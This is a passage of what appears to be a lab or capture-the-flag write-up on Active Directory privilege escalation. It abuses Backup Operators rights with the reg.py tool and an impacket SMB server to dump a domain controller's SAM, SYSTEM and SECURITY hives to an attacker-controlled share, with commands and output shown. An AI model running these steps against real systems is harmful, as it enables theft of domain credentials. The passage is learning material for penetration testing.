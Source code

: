 We can see that the user is a member of the `Backup Operators` group, which we can leverage to obtain sensitive information using a GitHub exploit.

We clone the repository onto our attacker machine, navigate into the created directory, and find the script reg.py, which we will use to extract information.

```bash
git clone https://github.com/horizon3ai/backup_dc_registry.git
cd backup_dc_registry
```

Before running it, as indicated in the instructions, we need to start an `SMB server` from the attacker host so that the `Domain Controller` can send back the requested data.

```bash
mkdir smbshare
```
```bash
impacket-smbserver -smb2support 'share' ./smbshare
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
```
Once the `share` is active, we execute the script and verify that it worked.

```bash
python3 reg.py zximena448:'internet'@10.0.4.18 backup -p '\\10.0.4.12\share'
```

Info:
```
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

Dumping SAM hive to \\10.0.4.12\share\SAM
Dumping SYSTEM hive to \\10.0.4.12\share\SYSTEM
Dumping SECURITY hive to \\10.0.4.12\share\SECURITY
```

```bash
ls -la smbshare
```

Info:
```
total 11324
drwxrwxr-x 2 trihack trihack     4096 Sep  7 19:42 .
drwxrwxr-x 4 trihack trihack     4096 Sep  7 19:39 ..
-rwxrwxr-x 1 trihack trihack    28672 Sep  7 19:42 SAM
-rwxrwxr-x 1 trihack trihack    32768 Sep  7 19:42 SECURITY
-rwxrwxr-x 1 trihack trihack 11526144 Sep  7 19:42 SYSTEM
```
